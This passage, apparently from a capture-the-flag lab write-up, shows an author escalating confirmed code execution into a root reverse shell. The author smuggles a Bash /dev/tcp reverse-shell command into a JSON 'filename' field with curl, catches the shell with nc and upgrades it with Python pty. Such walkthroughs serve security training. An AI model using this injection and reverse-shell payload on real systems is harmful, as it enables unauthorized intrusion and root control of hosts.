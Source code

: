 I get the ping at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:48:37.119550 IP 10.10.10.235 > 10.10.14.7: ICMP echo request, id 19, seq 1, length 64
13:48:37.119585 IP 10.10.14.7 > 10.10.10.235: ICMP echo reply, id 19, seq 1, length 64

```

That’s remote code execution (RCE).

#### Shell

I’ll swap out the `ping` with a Bash reverse shell. It took a couple tries to get the quotes right, but on running this:

```

oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'
{"ok":true,"Uploaded_File":"x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}

```

A shell returned at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 40804
id
uid=0(root) gid=0(root) groups=0(root)

```

Python is on the box, so I can get a full PTY:

```

which python
/usr/bin/python
python -c 'import pty;pty.spawn("bash")'
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 

```
